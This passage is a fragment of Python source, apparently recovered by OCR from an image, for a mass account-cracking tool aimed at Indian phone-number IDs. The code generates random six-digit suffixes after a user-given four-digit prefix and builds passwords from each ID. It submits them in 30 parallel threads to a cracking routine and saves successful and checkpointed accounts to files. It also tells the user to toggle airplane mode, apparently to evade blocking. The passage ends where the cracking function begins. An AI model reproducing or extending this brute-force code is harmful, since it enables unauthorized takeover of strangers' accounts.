 	print('[+] For Indian Enter Four Digit Code (9934)')

	print(47*'-')

	kode = input('[?] Input Code : ')

	print(47*'-')

	limit = int(input('[?] How many numbers do you want to add : '))

	for nmbr in range(limit):

		nmp = ''.join(random.choice(string.digits) for _ in range(6))

		user.append(nmp)

	with ThreadPool(max_workers=30) as yaari:

		os.system('clear')

		print(logo)

		tl = str(len(user))

		print('[+] Total Ids : \033[1;92m'+tl)

		print('\033[1;37;1m[$] Brute Has been started...(\033[1;94mIndia\033[1;97m)');print(47*"-");print('    USE FLIGHT (\033[1;91mAIRPLANE\033[1;97m) MODE BEFORE USE');print(47*"-")

		for guru in user:

			uid = kode+guru

			mk = uid[:6]

			pwx = [guru]

			pwx = [kode+guru,mk]

			yaari.submit(rcrack,uid,pwx,tl)

	print(47*"-")

	print('[✓] Crack process has been completed')

	print('[?] Ids saved in ok.txt,cp.txt')

	print(47*"-")

	print(' Press Inter To Back Menu')

	menu()

	

    

def rcrack(uid,pwx,tl):

	global loop

	global oks

	global agents

	try:
